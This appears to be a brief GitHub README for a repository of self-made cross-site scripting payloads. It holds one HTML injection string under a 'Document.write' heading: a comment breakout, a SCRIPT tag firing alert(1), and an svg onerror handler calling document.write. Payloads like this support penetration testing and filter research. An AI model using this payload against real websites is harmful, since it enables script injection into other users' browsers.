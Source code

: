 # xss
Personally created XSS payloads

# Danger zone! <br>

## Document.write <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onerror="alert(document.write(1337))">
```
